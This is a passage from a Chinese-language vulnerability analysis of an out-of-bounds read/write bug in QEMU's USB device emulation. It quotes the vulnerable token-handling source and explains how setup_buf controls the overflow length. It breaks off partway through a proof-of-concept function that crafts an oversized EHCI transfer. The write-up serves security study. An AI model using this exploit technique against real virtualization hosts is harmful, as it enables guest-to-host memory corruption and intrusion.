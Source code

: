 ```c
static void do_token_setup(USBDevice *s, USBPacket *p)
{
    s->setup_len   = (s->setup_buf[7] << 8) | s->setup_buf[6]; [9]
    ...
}
```

因此设置token决定进入`USB_TOKEN_OUT|IN|SETUP`的分支[8]，设置setup_buf决定越界的长度[9]。

5.越界读与越界写

```c
static void do_token_in(USBDevice *s, USBPacket *p)
{
    switch(s->setup_state) {
	case SETUP_STATE_DATA:
        if (s->setup_buf[0] & USB_DIR_IN) {
            int len = s->setup_len - s->setup_index;
            if (len > p->iov.size) {
                len = p->iov.size;
            }
            usb_packet_copy(p, s->data_buf + s->setup_index, len);
            s->setup_index += len;
            if (s->setup_index >= s->setup_len) {
                s->setup_state = SETUP_STATE_ACK;
            }
            return;
        }
        s->setup_state = SETUP_STATE_IDLE;
        p->status = USB_RET_STALL;
        break;
	...
}
static void do_token_out(USBDevice *s, USBPacket *p)
{
    switch(s->setup_state) {
	case SETUP_STATE_DATA:
        if (!(s->setup_buf[0] & USB_DIR_IN)) {
            int len = s->setup_len - s->setup_index;
            if (len > p->iov.size) {
                len = p->iov.size;
            }
            usb_packet_copy(p, s->data_buf + s->setup_index, len);
            s->setup_index += len;
            if (s->setup_index >= s->setup_len) {
                s->setup_state = SETUP_STATE_ACK;
            }
            return;
        }
        s->setup_state = SETUP_STATE_IDLE;
        p->status = USB_RET_STALL;
        break;
	...
}
//poc中的越界读写
void do_copy_read(){

    reset_enable_port();
    set_qh();

    qtd->token = QTD_TOKEN_ACTIVE | USB_TOKEN_IN << QTD_TOKEN_PID_SH | 0x1e00 << QTD_TOKEN_TBYTES_SH;
    qtd->bufptr[0] = virt2phys(data_buf);
    qtd->bufptr[1] = virt2phys(data_buf_oob);
```
